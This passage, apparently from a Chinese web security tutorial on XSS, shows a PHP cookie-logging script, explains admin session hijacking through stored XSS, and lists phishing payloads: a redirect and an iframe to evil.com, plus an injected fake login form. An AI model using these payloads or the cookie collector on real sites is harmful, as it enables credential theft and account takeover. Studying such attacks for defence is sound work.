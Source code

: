 ```php
<?php
$cookie = $_GET['cookie'];
$log = fopen("cookie.txt", "a");
fwrite($log, $cookie . "\n");
fclose($log);
?>
```

攻击者在获取到 Cookies 之后，通过修改本机浏览器的 Cookies，即可登录受害者的账户。

### 会话劫持

由于使用 Cookies 存在一定的安全缺陷，因此，开发者开始使用一些更为安全的认证方式，如 Session。在 Session 机制中，客户端和服务端通过标识符来识别用户身份和维持会话，但这个标识符也有被其他人利用的可能。会话劫持的本质是在攻击中带上了 Cookies 并发送到了服务端。

如某 CMS 的留言系统存在一个存储型 XSS 漏洞，攻击者把 XSS 代码写进留言信息中，当管理员登录后台并查看是，便会触发 XSS 漏洞，由于 XSS 是在后台触发的，所以攻击的对象是管理员，通过注入 JavaScript 代码，攻击者便可以劫持管理员会话执行某些操作，从而达到提升权限的目的。

比如，攻击者想利用 XSS 添加一个管理员账号，只需要通过之前的代码审计或其他方式，截取到添加管理员账号时的 HTTP 请求信息，然后使用 XMLHTTP 对象在后台发送一个 HTTP 请求即可，由于请求带上了被攻击者的 Cookies，并一同发送到服务端，即可实现添加一个管理员账户的操作。

### 钓鱼

-   重定向钓鱼

    把当前页面重定向到一个钓鱼页面。

    ```
    http://www.bug.com/index.php?search="'><script>document.location.href="http://www.evil.com"</script>
    ```

-   HTML 注入式钓鱼

    使用 XSS 漏洞注入 HTML 或 JavaScript 代码到页面中。

    ```
    http://www.bug.com/index.php?search="'<html><head><title>login</title></head><body><div style="text-align:center;"><form Method="POST" Action="phishing.php" Name="form"><br /><br />Login:<br/><input name="login" /><br />Password:<br/><input name="Password" type="password" /><br/><br/><input name="Valid" value="Ok" type="submit" /><br/></form></div></body></html>
    ```

该段代码会在正常页面中嵌入一个 Form 表单。

-   iframe 钓鱼

    这种方式是通过 `<iframe>` 标签嵌入远程域的一个页面实施钓鱼。

    ```
    http://www.bug.com/index.php?search='><iframe src="http://www.evil.com" height="100%" width="100%"</iframe>
    ```

-   Flash 钓鱼

    将构造好的 Flash 文件传入服务器，在目标网站用 `<object>` 或 `<embed>` 标签引用即可。
